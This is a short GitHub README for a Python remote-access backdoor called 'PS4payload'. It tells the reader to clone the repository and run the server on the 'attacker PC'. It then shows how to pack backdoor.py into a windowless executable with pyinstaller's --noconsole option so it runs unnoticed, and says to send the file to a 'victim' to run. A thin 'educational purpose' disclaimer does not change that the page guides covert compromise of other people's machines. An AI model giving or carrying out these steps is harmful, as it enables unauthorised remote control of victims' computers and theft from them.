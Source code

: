 
# PS4payload
This is a wonderful powerful backdoor Made by PS4 SPIDEY THAT IS ME I AM A ETHICAL HACKER So carefully
# THIS IS FOR EDUCATIONL PURPOSE I DON'T PROMOTE ANY OTHER ILLEGAL CONTENT

# HOW TO RUN THIS FILE IN ATTACKER PC
<div style="background: #000;">
git clone https://github.com/PS4SPIDEY/PS4payload.git
<br>
<br>
cd PS4payload
<br>
<br>
python server.py
<br>
<br>
</div>

# HOW TO CONVERT PYTHON BACKDOOR FILE IN TO EXE
<div style="background: #000;">
First Try:
<br>
pip install auto-py-to-exe
<br>
auto-py-to-exe
<br>
</div>
<div style="background: #000;">
Second Try:
<br>
pip install pyinstall
<br>
pyinstall backdoor.py --onefile --noconsole
<br>
</div>
# HOW TO RUN THIS FILE TO  VICTIM PC
<div style="background: #000;">
<br>
sent the python file or exe file to victim then run this file if you want to run python
<br>
python backdoor.py
<br>

or if you want to run exe just click it it will automatically closed So bye GUYS
<br>
</div>
